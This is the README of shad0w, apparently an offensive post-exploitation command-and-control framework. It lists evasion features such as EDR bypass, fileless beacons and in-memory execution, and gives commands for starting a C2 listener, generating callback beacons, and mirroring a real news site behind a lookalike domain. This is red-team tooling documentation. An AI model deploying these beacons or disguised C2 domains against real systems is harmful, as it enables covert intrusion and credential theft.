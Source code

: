 <p align="center">
  <img alt="pwndrop logo" src="shad0w.jpg" />
</p>

# shad0w

[![Project Status](https://img.shields.io/badge/status-BETA-yellow?style=flat-square)]()

shad0w is a post exploitation framework designed to operate covertly on heavily monitored environments

### Features

#### C2 Server

- Secure communication over HTTPS.
- Clone and live proxy any website, making the C2 fully browsable.

#### Beacons

- Staged and static beacons
- Shellcode and powershell formats allow for completely fileless attacks
- Uses native windows syscalls
- Bypasses userland API hooking
- Blocks EDR from loading DLLs into its process
- Can execute .NET assemblies, EXEs, DLLs, VBS, JS or XSL files completely in memory
- Common privilege escalation exploits built in
- Interact with the file system
- Configurable C2 callback jitter

#### Modules

- [GhostPack](https://github.com/GhostPack)
- [mimikatz](https://github.com/gentilkiwi/mimikatz)
- [SharpSocks](https://github.com/nettitude/SharpSocks)

### Coming Soon

- Unmanaged powershell
- Syscalls for older versions of windows
- Kernel mode capability
- More privilege escalation exploits
- Ghost in the logs integration
- UAC bypasses
- Persistence
- 32 bit support
- More beacon formats

### Install

To install shad0w run the two commands below, making sure you already have docker installed on your system.

    $ git clone --recurse-submodules https://github.com/bats3c/shad0w.git && cd shad0w
    $ sudo ./shad0w install

### Usage

#### C2

To start the C2 server and have it listening for connections you can use the command.

    $ shad0w listen -e <endpoint>

Where the `<endpoint>` is the IP address or domain name the C2 will be listening on. SSL certificates will also be dynamically generated.

To use the website mirroring functionality you can use the `-m` or `--mirror` flag

    $ shad0w listen -e www.bbc-news.com -m "https://www.bbc.com/"

This will mean that if the C2s address of `www.bbc-news.com` is visited the content of `https://www.bbc.com/` will be retrieved and returned. This is also true for any links on the cloned website. If the person browsing the C2 navigated to `https://www.bbc-news.com/sport/football/52799575` the content at `https://www.bbc.com/sport/football/52799575` would be mirrored.

#### Beacons

*Only 64 bit beacons are currently supported*

There are two types of beacons, `secure` and `insecure`. Secure beacons have all the mitigation and evasions techniques built in such syscalls and anti dll injection. These secure beacons are designed to work on the lastest versions of windows.

The insecure beacons are designed to work on a wide variety of windows versions but are designed to be used in situations where detection does not matter.

The syntax for beacon generation.

    $ shad0w beacon -p <payload> -H <c2 address> -f <format> -o <filename>

The format for payloads follows the following syntax

    <arch>/<os>/<secure>/<static>

So to generate a static 64 bit secure windows beacon it would be

    x64/windows/secure/static

Although it is recommended to use staged beacons so the command to generate a staged secure beacon in EXE format would be

    $ shad0w beacon -p x64/windows/secure -H www.bbc-news.com -f exe -o beacon.exe

Or for an insecure beacon it would be

    $ shad0w beacon -p x64/windows -H www.bbc-news.com -f exe -o beacon.exe

There are currently 3 different beacon formats; exe, shellcode and powershell
The `-f` flags is used to control the different formats of the beacons.

To generate a beacon in shellcode or powershell format you can use the `raw` or `psh` value respectively 

    $ shad0w beacon -p x64/windows/secure -H www.bbc-news.com -f raw -o beacon.bin

    $ shad0w beacon -p x64/windows/secure/static -H www.bbc-news.com -f psh -o beacon.ps1

#### Interface

To get a list of commands you can use the `help` command

    shad0w ≫ help

To get a list of active beacons you can use the `beacons` command

    shad0w ≫ beacons

To interact with a beacon use the `beacons` command with the `-i` flag specifying the beacon id

    shad0w ≫ beacons -i 1

### Credits

- [JUMPSEC](https://www.jumpsec.com/) (for just generally being awesome)
- [The Wover](https://twitter.com/TheRealWover) (cause donut is so good)

